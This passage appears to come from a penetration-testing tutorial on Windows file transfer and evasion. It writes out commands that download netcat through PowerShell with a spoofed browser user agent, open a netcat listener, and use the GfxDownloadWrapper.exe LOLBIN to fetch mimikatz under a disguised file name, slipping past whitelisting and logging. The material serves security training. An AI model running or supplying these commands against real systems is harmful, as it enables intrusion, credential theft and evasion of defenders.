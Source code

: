 Invoke-WebRequest contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari.

**Listing User Agents**

```go
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

**Request with Chrome User Agent**
```go
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
```
```go
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

```
nc -lvnp 80
```

### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows

**Transferring File with GfxDownloadWrapper.exe**
```
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

